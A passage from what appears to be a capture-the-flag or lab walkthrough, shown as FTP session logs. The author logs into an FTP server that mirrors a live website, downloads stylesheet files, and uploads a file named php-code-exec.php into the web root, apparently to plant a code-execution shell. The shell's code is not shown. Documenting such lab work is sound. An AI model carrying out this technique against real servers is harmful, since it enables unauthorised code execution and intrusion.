 ```text
-rwxr-xr-x    1 0        0             893 May 26 18:52 _login.scss
-rwxr-xr-x    1 0        0               1 May 26 18:52 _mixins.scss
-rwxr-xr-x    1 0        0              85 May 26 18:52 _navs.scss
-rwxr-xr-x    1 0        0             239 May 26 18:52 _utilities.scss
-rwxr-xr-x    1 0        0            2477 May 26 18:52 _variables.scss
drwxr-xr-x    2 0        0            4096 May 26 18:52 navs
-rwxr-xr-x    1 0        0             504 May 26 18:52 sb-admin-2.scss
drwxr-xr-x    2 0        0            4096 May 26 18:52 utilities
226 Directory send OK.
ftp> get sb-admin-2.scss
local: sb-admin-2.scss remote: sb-admin-2.scss
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for sb-admin-2.scss (504 bytes).
226 Transfer complete.
504 bytes received in 0.00 secs (3.3379 MB/s)
ftp> cd utilities
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0             596 May 26 18:52 _animation.scss
-rwxr-xr-x    1 0        0             389 May 26 18:52 _background.scss
-rwxr-xr-x    1 0        0             190 May 26 18:52 _border.scss
-rwxr-xr-x    1 0        0              64 May 26 18:52 _display.scss
-rwxr-xr-x    1 0        0              34 May 26 18:52 _progress.scss
-rwxr-xr-x    1 0        0              90 May 26 18:52 _rotate.scss
-rwxr-xr-x    1 0        0             699 May 26 18:52 _text.scss
226 Directory send OK.
```

I was able to successfully login, and began looking around. It appeared as if the ftp server location and files were the same as the live website. I exfiltrated some of the files to my machine for further analysis, but none of the files seemed to have anything interesting in them.

```text
ftp> put php-code-exec.php
local: php-code-exec.php remote: php-code-exec.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
33 bytes sent in 0.00 secs (233.5258 kB/s)
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 May 26 18:52 css
drwxr-xr-x    2 0        0            4096 May 26 18:52 img
-rwxr-xr-x    1 0        0           13742 Jun 23 08:44 index.php
drwxr-xr-x    3 0        0            4096 May 26 18:52 js
--wxrw-rw-    1 1001     1001           33 Nov 11 12:49 php-code-exec.php
drwxr-xr-x    2 0        0            4096 May 26 18:52 pypi
drwxr-xr-x    4 0        0            4096 May 26 18:52 scss
-rwxr-xr-x    1 0        0           26523 May 26 19:58 team.php
drwxr-xr-x    8 0        0            4096 May 26 18:52 vendor
226 Directory send OK.
```
